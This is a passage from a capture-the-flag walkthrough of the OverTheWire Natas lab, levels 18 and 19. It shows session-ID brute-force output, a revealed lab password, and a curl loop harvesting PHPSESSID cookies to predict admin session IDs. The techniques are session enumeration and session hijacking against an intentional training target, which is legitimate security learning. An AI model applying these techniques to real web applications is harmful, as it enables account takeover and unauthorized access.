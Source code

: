 ```bash
[-] 1 out of 640 is not a admin session.
[-] 2 out of 640 is not a admin session.
[-] 3 out of 640 is not a admin session.
[-] 4 out of 640 is not a admin session.
[-] 5 out of 640 is not a admin session.
[-] 6 out of 640 is not a admin session.
[-] 7 out of 640 is not a admin session.
[-] 8 out of 640 is not a admin session.
[-] 9 out of 640 is not a admin session.
...
[-] 115 out of 640 is not a admin session.
[-] 116 out of 640 is not a admin session.
[-] 117 out of 640 is not a admin session.
[-] 118 out of 640 is not a admin session.
[+] 119 out of 640 is a admin session.
[+] Password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
```

4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

## Natas19

```markup
This page uses mostly the same code as the previous level, but session IDs are no longer sequential...

Please login with your admin account to retrieve credentials for natas20.
```

Lets bake some cookies.

```text
for n in {0..1000}; do
    curl -v -s 'http://natas19.natas.labs.overthewire.org/index.php' -H 'Authorization: Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==' --data 'username=admin&password=password' 2>&1 | grep PHP
done

< Set-Cookie: PHPSESSID=312d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=312d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=332d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=342d61646d696e; path=/; HttpOnly
...
< Set-Cookie: PHPSESSID=3633352d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633352d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633372d61646d696e; path=/; HttpOnly
< Set-Cookie: PHPSESSID=3633382d61646d696e; path=/; HttpOnly
```

And lets get all the unique PHPSESSID's and sort them.

```text
312d61646d696e
332d61646d696e
342d61646d696e
352d61646d696e
...
3633372d61646d696e
3633382d61646d696e
3633392d61646d696e
3634302d61646d696e
```
